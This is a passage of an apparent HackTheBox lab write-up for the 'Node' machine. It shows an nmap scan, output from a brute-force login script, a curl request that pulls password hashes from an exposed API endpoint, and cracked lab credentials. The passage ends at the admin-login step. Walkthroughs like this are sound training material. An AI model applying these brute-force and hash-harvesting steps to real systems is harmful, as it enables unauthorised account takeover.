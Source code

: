 # Node | HackTheBox

### 1. Scan
```
─[us-dedivip-1]─[10.10.14.162]─[htb-jib1337@htb-eolbqcu7pq]─[~]
└──╼ [★]$ sudo nmap -A -p- -T4 10.129.71.65
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-29 02:16 UTC
Nmap scan report for 10.129.71.65
Host is up (0.22s latency).
Not shown: 65533 filtered ports
PORT     STATE SERVICE            VERSION
22/tcp   open  ssh                OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:5e:34:a6:25:db:43:ec:eb:40:f4:96:7b:8e:d1:da (RSA)
|   256 6c:8e:5e:5f:4f:d5:41:7d:18:95:d1:dc:2e:3f:e5:9c (ECDSA)
|_  256 d8:78:b8:5d:85:ff:ad:7b:e6:e2:b5:da:1e:52:62:36 (ED25519)
3000/tcp open  hadoop-tasktracker Apache Hadoop
| hadoop-datanode-info: 
|_  Logs: /login
| hadoop-tasktracker-info: 
|_  Logs: /login
|_http-title: MyPlace
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.12 (92%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.2 - 4.9 (92%), Linux 3.8 - 3.11 (92%), Linux 4.2 (92%), Linux 4.4 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   221.35 ms 10.10.14.1
2   222.80 ms 10.129.71.65

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 215.25 seconds
```
The machine is running SSH and Apache Hardoop on port 3000.

### 2. Enumeration
Going to the HTTP site on the Hardoop port shows a budding social media website called "MyPlace". The front page shows there are three new members: tom, mark and rastating.  
Running a dirbust against the site can be done by specifying a bad string in the response since every request returns 200, but nothing of any real interest is discovered.  
There is a login page - I create a script to conduct a wordlist attack on the login form since there is no protection against bruteforce (see loginattack.py).
```bash
─[us-dedivip-1]─[10.10.14.162]─[htb-jib1337@htb-eolbqcu7pq]─[~/writeups/HackTheBox/HTB_Node]
└──╼ [★]$ ./loginattack.py 
[+] Attempting wordlist attack for tom...
Attempts for tom: 0
[+] Login - tom:spongebob
[+] Attempting wordlist attack for mark...
Attempts for mark: 0
Attempts for mark: 100
Attempts for mark: 200
Attempts for mark: 300
Attempts for mark: 400
Attempts for mark: 500
Attempts for mark: 600
Attempts for mark: 700
Attempts for mark: 800
Attempts for mark: 900
Attempts for mark: 1000
Attempts for mark: 1100
Attempts for mark: 1200
Attempts for mark: 1300
Attempts for mark: 1400
[+] Login - mark:snowflake
[+] Attempting wordlist attack for rastating...
Attempts for rastating: 0
Attempts for rastating: 100
Attempts for rastating: 200
Attempts for rastating: 300
Attempts for rastating: 400
Attempts for rastating: 500
...
```
Two sets of credentials are recovered: `tom:spongebob` and `mark:snowflake`.  
Logging in as these users gives only a single page indicating there is no functionality for non-admin users. From here it can be concluded that these users are a dead end.
  
Taking a look at the site in Burpsuite, the pages are retrieving information from several endpoints. One is used to the the list of latest users: `/api/users/latest`.  
By changing this to `/api/users` the response returns a list of users and their password hashes.
```bash
─[us-dedivip-1]─[10.10.14.162]─[htb-jib1337@htb-eolbqcu7pq]─[~/writeups/HackTheBox/HTB_Node]
└──╼ [★]$ curl --silent http://10.129.71.65:3000/api/users | jq
[
  {
    "_id": "59a7365b98aa325cc03ee51c",
    "username": "myP14ceAdm1nAcc0uNT",
    "password": "dffc504aa55359b9265cbebe1e4032fe600b64475ae3fd29c07d23223334d0af",
    "is_admin": true
  },
  {
    "_id": "59a7368398aa325cc03ee51d",
    "username": "tom",
    "password": "f0e2e750791171b0391b682ec35835bd6a5c3f7c8d1d0191451ec77b4d75f240",
    "is_admin": false
  },
  {
    "_id": "59a7368e98aa325cc03ee51e",
    "username": "mark",
    "password": "de5a1adf4fedcce1533915edc60177547f1057b61b7119fd130e1f7428705f73",
    "is_admin": false
  },
  {
    "_id": "59aa9781cced6f1d1490fce9",
    "username": "rastating",
    "password": "5065db2df0d4ee53562c650c29bacf55b97e231e3fe88570abc9edd8b78ac2f0",
    "is_admin": false
  }
]
```
Searching online for the admin's hash completes a set of valid admin credentials: `myP14ceAdm1nAcc0uNT:manchester`.

### 3. Log in to the admin page

